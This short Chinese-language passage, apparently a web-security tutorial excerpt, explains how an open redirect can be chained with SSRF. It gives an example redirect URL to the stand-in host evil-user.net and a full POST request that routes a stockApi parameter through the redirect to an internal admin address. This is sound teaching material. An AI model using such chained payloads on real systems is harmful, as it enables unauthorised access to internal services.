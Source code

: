 
当应用程序存在如下形式的开放重定向漏洞时：

```
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```

该请求会触发重定向至：

```
http://evil-user.net
```



攻击者可结合 SSRF 漏洞发起以下复合攻击：

```
POST /product/stock HTTP/1.0  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 118  
stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

此 SSRF 漏洞之所以有效，是因为应用程序首先验证了提供的 `stockAPI` URL 位于允许的域名上，确实如此。随后，应用程序请求该提供的 URL，从而触发了开放重定向。它跟随重定向，并向攻击者选择的内部 URL 发起请求。




